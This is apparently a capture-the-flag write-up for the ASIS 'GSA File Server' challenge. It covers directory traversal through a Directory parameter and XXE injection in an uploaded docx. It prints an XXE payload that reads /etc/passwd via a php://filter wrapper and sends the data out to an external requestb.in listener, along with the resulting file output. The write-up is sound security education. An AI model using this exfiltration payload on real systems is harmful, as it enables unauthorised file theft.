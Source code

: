 
<h1>GSA File Server</h1>  
<b>Category</b>: Web Network OSINT
<h2>Description:</h2>

GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:*
Alert: No remote brute force and automated scanning are needed.


So after checking the website, look like a simple web app with JS (js/functions.js) with a interesting parameter (showFiles)


![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/1.PNG)

so i tried  a GET request to see the server answer and all i get is this  (look like listing the elements in specefic current directory
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/2.PNG)

let check with burpsuit :
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/3.PNG)

Bingooo, as you can see in the server answer ther is the Directory parameter , so let's try some traversal things ,
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/4.PNG)

use ../  and you can see that it's work perfectly , let's check others files 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/5.PNG)


so the admin panel is the (panelmanager-0.1) , now we have to read the files on the server, but first let's check the the panelmanager
let's try 128.199.40.185/panelmanager-0.1 .. FAIL!!!
but as you can see in the description that said (that Scope is 128.199.40.185:*) 

you can check with nmap (becarfull with the scan tools) try the common port 8080 (FAIL) ..8081 (work)
is a simple upload that's allow you to upload files (docx ..)

![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/099.PNG)

generally when we say docx ==> XML ==> XXE , 
we need a listener and a good payload and docx (where we inject in the word/document.xml) 
i used https://requestb.in (as listener )  and as a payload in the docx 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/payload.PNG)

where the txt file contains:
```
<!ENTITY % filebase64 SYSTEM "php://filter/convert.base64-encode/resource=../../../../etc/passwd">
<!ENTITY % injme '<!ENTITY startme SYSTEM "https://requestb.in/****?xxe=%filebase64;">'>
```

so i have only to modify the payloads in my webserver and reupload the file docx (with it rebuild-it every single try)
and to check the aswer you have to visite (https://requestb.in/****?inspect) 

i get answer for the /etc/passwd  
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[................]
```

to be honest i spent hours graping files but no FLAG ...  but the most interesting thing  is the  filesharing (permission denied) 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/7.PNG)

so the idea is to read /etc/samba/smb.conf to get secret dir filename which is s3cRetP4th 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/10.PNG)

and all we have to do now is the grab the file and get the FLAG  
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/11.PNG) 

the flag  ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}  
